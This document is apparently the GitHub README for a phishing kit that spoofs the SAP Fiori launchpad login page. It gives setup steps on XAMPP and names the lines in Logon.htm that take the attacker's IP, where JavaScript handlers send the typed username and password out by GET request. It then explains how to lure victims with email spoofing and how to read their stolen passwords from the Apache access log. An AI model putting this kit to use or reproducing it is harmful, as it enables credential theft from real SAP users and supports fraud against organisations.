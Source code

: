 # Fiori launchpad spoofing (Phishing) 
## Project Description
FLPS is a set of HTML Pages with Javascript spoofing the SAP Fiori launchpad. 
The current version redirects to a hardcoded IP and stores the Credentials in the access log,
as they will be sent back via GET Request.
## Table of contents
1. Prerequisites</br>
2. Install</br>
3. Usage</br>
4. Contributing</br>
5. License</br>
## 1. Prerequisites
The current version was only tested on Windows 10 running XAMPP. 
1. Install XAMPP</br>
Download and run the installer from apachefriends (to be found [here](https://www.apachefriends.org/de/index.html))
2. Run XAMPP</br>
Start the Apache webserver
## 2. Install
Clone this Repo to the htdocs folder of XAMPP
```bash
cd C:\xampp\htdocs
```

```bash
git clone https://github.com/JonathanStross/sap_flp_spoofing.git
```
Currently, IP Adresses are hardcoded. Therefor, you need to adjust the Logon.htm file: 
```HTML
Line 10: <... href="TARGETSYSTEM:44300/sap/public/bc/ui2/logon/img/favicon.ico"
Line 20: <... action="TARGETSYSTEM:44300/sap/bc/ui2/flp?_sap-hash=JTIzU2hlbGwtaG9tZQ"
Line 31: <... onblur=storeUsername('YOURIP:APACHEPORT')>
Line 32: <... onblur=storePassword('YOURIP:APACHEPORT')>
Line 35: <... onclick=storeValues('YOURIP:APACHEPORT')>
```
You can find your IP by asking google or using CMD:
```bash
ipconfig
```
The port of apache is being displayed in the admin panel of XAMPP.
## 2. Usage
Key to success with any kind of phishing is to make the target believe it is the valid page. Therefor, you can utilize for example email spoofing. A documentation on email spoofing is to be found [here](https://letmegooglethat.com/?q=email+spoofing+with+kali).
<br><br>When a Victim has entered his Credentials, you can read the credentials in the access.log of the apache server. To see the logs, go to the adminpanel and click on the Logs Button and select the access.log. Scroll to the bottom of the log, the last two entries should be a GET request with the parameters ?Password=XYZ and ?Username=XYZ.
## 3. Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
You can request a feature by directly contacting me or opening an issue.
## 4. License
[MIT](https://choosealicense.com/licenses/mit/)
